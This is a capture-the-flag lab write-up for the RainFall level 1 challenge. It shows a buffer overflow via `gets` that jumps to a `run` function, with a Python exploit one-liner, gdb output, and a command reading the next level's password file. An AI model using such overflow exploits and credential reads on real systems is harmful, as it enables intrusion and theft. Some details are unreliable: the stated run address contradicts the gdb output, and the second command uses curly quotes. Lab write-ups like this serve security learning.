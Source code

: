 # Level 1

From the source (thank you Ghidra), we can see the main calls the vulnerable function `gets` with a buffer of size 76.
We can also see another function called run at memory address 0x08048480.

So we can do a buffer overflow exploit where we fill the entire buffer with random values (here A's) and directly afterwards (in the return address), we write the memory address of the run function but in Little-Endian notation.
And we use `cat` to keep the shell open.

```bash
(python -c 'import struct; print 76 * "A" + struct.pack("<Q", 0x08048444)'; cat) | ./level1 
```

## Putting it all together:

```shell
level1@RainFall:~$ gdb ./level1
[…]
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:
Non-debugging symbols:
[…]
0x08048444  run
0x08048480  main
[…]
(gdb) quit
level1@RainFall:~$ (python -c ‘import struct; print “A”*76 + struct.pack(“<Q”, 0x08048444)‘; cat -) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
[…]
``` 

